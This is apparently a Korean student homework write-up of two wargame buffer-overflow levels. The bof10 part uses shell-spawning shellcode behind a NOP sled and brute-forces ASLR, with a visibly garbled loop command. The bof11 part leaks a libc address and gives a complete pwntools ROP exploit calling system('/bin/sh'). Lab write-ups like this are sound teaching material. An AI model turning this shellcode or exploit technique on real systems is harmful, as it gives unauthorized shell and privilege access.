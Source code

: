 # 과제 

## BoF10
### 취약점 분석

![bof10_1](image/bof10_1.png)

bof10은 main함수로부터 argument를 받아 strcpy함수를 이용하여 buf에 저장하기 때문에 Overflow가 일어날 수 있다.

하지만 bufsitze가 shellcode가 들어갈 정도로 크지 않기 때문에 환경변수를 이용하여야 한다.

![bof10_2](image/bof10_2.png)

![bof10_3](image/bof10_3.png)

파일을 실행시켜 보았을때 SHELLCODE라는 환경변수가 없는 것을 확인했다.


다음과 같이 32bit용 Shellcode를 환경변수 SHELLCODE안에 저장한다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

![bof10_4](image/bof10_4.png)

프로그램을 실행시켰을때 ASLR기법이 적용되어 메모리 주소가 계속 변하는 것을 확인할 수 있다.

![bof10_5](image/bof10_5.png)

이럴때는 무작위로 때려박아 내가 원하는 shellcode가 실행될 때 까지 돌려야 한다.

그 확률을 높이기 위하여 NOP코드 13000개를 추가한다.

그럼 13000개의 NOP코드중 어느곳에 떨어지든 Shellcode를 실행시킬 수 있기 때문에 Shell이 실행될 확률이 높아진다.



    export SHELLCODE="`python -c '\x90'*13000+'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"

while do 문을 이용하여 권한을 얻을때 까지 반복한다.
    
    while true; while true; do ./bof10 `python -c "print 'a'*20 + '\x94\x85\xbc\xff'"`;done do;

![bof10_6](image/bof10_6.png)

## BoF11
### 취약점 분석

![bof11_1](image/bof11_1.png)

bof11은 fgets함수를 이용하여 데이터를 입력받아 저장하기 때문에 Overflow가 발생할 수 있다. 

 bof11은 NX bit가 적용되어 있고 ASLR이 적용되어 있기 때문에 단순하게 RTL방식을 사용해서는 권한을 가져올 수 없다. 

![bof11_2](image/bof11_2.png)

하지만 system에서 printf함수의 주소가 유출되는 것을 확인할 수 있다.

printf의 주소를 알 수 있으면 system함수,pop rdi; ret, /bin/sh 문자열의 상대 거리를 알 수 있다.

printf주소 - system함수 주소

printf주소 - pop rdi;ret 주소

printf주소 - /bin/sh 문자열 주소
를 통하여 상대거리를 구한뒤

프로그램내에서 printf주소 - 상대거리를 계산해 원하는 주소값을 찾을 수 있다.

--------------------------------------------------------
먼저 overflow가 일어나는 크기를 구한다. 18byte

![bof11_3](image/bof11_3.png)

![bof11_4](image/bof11_4.png)

---

프로그램을 실행시킨 후  printf 함수와 system함수의 주소값을 빼 상대거리를 구한다. 

0x10470

![bof11_5](image/bof11_5.png)

---

![bof11_8](image/bof11_8.png)

    ROPgadget.py --binary //tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
명령어를 통하여 pop rdi; ret 명령어의 offset을 구한 뒤

![bof11_6](image/bof11_6.png)

프로그램 내부에서 실제 pop rdi; ret값 즉 libc시작 주소와 더한 값을 printf함수와 빼준다

0x346fe

--------------------------------------------------------
search-pattern /bin/sh를 이용하여 /bin/sh 문자열의 주소를 찾은 뒤 printf 함수와의 상대 거리를 구한다.

![bof11_7](image/bof11_7.png)

/bin/sh 주소의 값이 더 크기 때문에 계산에 편의를 위하여 큰값에서 작은값을 빼준다.

모든 주소의 상대 거리를 구했기 때문에 python 프로그램을 작성해준다.

<details>
<summary>Python 코드</summary>
<div markdown="1">

```python
from pwn import*

# process함수를 이용하여 실행하고자 입력
p = process('./bof11')

# recvuntil함수를 이용하여 printf() address : 까지 받아와 버린다.
p.recvuntil('printf() address :')

#남은 printf의 주소값만을 저장한다.
printf_addr = p.recvuntil('\n')[:-1]

#recvuntil을 이용하여 받아온 정보는 Byte이기 때문에 .decode()를 이용하여 변환한다.
printf_addr =printf_addr.decode()

#변환된 값은 문자열이기 때문에 정수형태로 바꿔 주소를 계산을 해준다.
system_addr = int(printf_addr,16) - 0x10470
binsh_addr =int(printf_addr,16) + 0x137557
poprdi_ret = int(printf_addr,16) - 0x346fe



# 얻어낸 정보를 이용하여 Payload를 작성한다.

# p64를 이용하여 변환된 값은 byte이기 때문에 버퍼를 채울 쓰레기 값들도 byte로 변환시켜준다.
payload = b'x'*18

#64bit little endian방식으로 payload를 추가해준다.
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

#payload를 보내고 interactive함수를 이용하여 payload를 전달한다.
p.send(payload)
p.interactive()
```

</div>
</details>


다음과 같이 작성된 python코드를 실행시키면

![final](image/bof11_9.png)

bof12의 권한을 가져온 것을 확인할 수 있다.
